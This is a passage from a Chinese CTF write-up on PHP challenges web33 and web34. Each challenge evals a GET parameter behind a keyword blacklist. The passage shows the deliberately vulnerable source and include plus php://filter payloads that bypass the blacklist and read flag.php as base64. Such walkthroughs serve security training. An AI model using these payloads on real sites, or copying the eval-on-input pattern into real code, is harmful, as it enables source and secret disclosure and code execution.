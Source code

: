 又增加过滤了 反引号、括号，echo。

#### 文件包含绕过

```
include
require
include_once
require_once
```

payload:

```
?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```

## web33~文件包含绕过

源码：

```php
<?php


error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}

```

多过滤了一个双引号，

直接用上一题的 payload:

```
?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php

?c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
```

## web34~文件包含绕过

源码：

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```
